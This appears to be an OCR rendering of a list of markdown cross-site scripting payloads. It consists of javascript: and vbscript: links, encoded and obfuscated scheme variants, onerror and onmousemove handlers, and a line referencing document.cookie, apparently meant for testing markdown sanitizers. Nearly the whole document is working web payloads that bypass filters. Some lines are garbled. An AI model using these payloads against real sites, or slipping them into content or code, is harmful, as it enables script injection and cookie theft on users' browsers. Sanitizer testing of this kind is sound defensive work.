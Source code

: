 ```.py "onmousemove='alert("XSS")'\\
print(document.cookie)
```

[a](javascript:confirm(1))

[a](javascript://www.test.com%0Aprompt(1))

[a](javascript://%0d%0aconfirm(1))

[a](javascript://%0d%0aconfirm(1);com)

[a](javascript:window.onerror=confirm;throw%201)

[a]: (javascript:prompt(1))

[a]:(?javascript:alert(1))    

[XSS](j    a   v   a   s   c   r   i   p   t:alert(1))

[XSS](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
[XSS](vbscript:alert(document.domain))
[XSS](javascript:this;alert(1))
[XSS](javascript:this;alert(1&#41;)
[XSS](javascript&#58this;alert(1&#41;)
[XSS](Javas&#99;ript:alert(1&#41;)
[XSS](Javas%26%2399;ript:alert(1&#41;)


[XSS](�javascript:alert(document.domain&#41;)


![Escape SRC - onerror]("onerror="alert('ImageOnError'))

link: <a href="https://gitlab.com" title="title">xss &lt;img onerror=alert(1) src=x></a>
